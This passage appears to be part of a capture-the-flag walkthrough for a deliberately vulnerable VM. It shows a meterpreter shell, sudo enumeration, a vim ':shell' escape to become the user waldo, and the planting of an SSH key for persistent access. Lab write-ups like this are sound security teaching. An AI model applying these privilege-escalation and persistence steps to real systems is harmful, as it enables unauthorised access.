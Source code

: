meterpreter > channel -i 2
Interacting with channel 2...


whoami
www-data
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (waldo) NOPASSWD: /usr/bin/vim /etc/apache2/sites-available/000-default.conf
    (ALL) NOPASSWD: /sbin/iptables
This shows us how to become the user waldo with a vim escape from a www-data shell.

Becoming waldo, another user with better access
With the information we just gathered, as www-data, we run the following command
sudo -u waldo /usr/bin/vim /etc/apache2/sites-available/000-default.conf

Once vim, opens we escape to a shell by hitting Esc, followed by:

:shell

Now we are waldo, as we can see in the following commands

whoami
waldo
id
uid=1000(waldo) gid=1000(waldo) groups=1000(waldo),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
We still have a terrible shell though, because shell -t as the www-data user failed from meterpreter (and we had to fallback to just shell); this is because www-data user is not allowed to have a tty. Now that we have access as the user waldo, let's get a tty.

Getting a Real Terminal
To do this, we make the .ssh directory in waldo's home, echo out an ssh pubkey to the ~waldo/.ssh/authorized_keys and chown it 600. Now we can simply ssh as waldo.

root@kali:~# ssh waldo@wallaby
Welcome to Ubuntu 16.04.1 LTS (GNU/Linux 4.4.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Thu May  2 18:11:36 2019 from 192.168.167.130
waldo@ubuntu:~$
What Can Waldo Do?
While doing our initial exploration, remember how we found some tips?

Welcome to the Wallaby's Worst Knightmare 2 part series VM.
A few tips.
1. Fuzzing is your friend.
2. Tmux can be useful for many things.
3. Your environment matters.
Good luck and have fun! -Waldo
Start the CTF!
The tips for this CTF included a hint about tmux being useful. Once we become waldo, it's easy to see what he is running, since there is a script for running irssi in waldo's home directory. That script starts irssi in a tmux session.
